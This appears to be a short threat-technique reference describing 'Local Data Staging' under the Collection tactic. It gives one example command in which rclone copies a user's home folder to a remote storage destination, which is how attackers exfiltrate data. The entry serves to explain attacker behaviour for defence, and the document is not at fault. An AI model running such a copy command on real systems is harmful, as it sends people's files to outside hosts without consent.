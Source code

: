 ## Tactic: Collection

### Technique: Local Data Staging

Threat actors often use this technique to avoid detection by keeping all files in a centralized folder locally, in the cloud, or remotely before exfiltration.

---

**Example:**

_Remote file transfer tool_ `rclone` communicating:

```bash
C:\Users\jamesmurphy\AppData\Local\Temp\rclone.exe copy C:\Users\Jamesmurphy\ remote2:/home/cyborgbob/Documents/MegaTraining/FileCollection/Rclone/
